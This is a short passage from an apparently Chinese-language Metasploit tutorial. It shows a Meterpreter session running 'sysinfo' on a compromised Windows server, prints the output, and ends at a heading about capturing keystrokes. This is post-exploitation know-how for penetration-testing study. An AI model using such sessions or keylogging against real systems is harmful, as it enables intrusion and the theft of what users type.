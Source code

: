 ![Alt text](/img/hack/Metasploit/1488783462949.png)

### **`sysinfo`，可以获取系统运行的平台**

```javascript

meterpreter > sysinfo
Computer        : ROOT-TVI862UBEH
OS              : Windows .NET Server (Build 3790).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
```


### **获取键盘记录**。
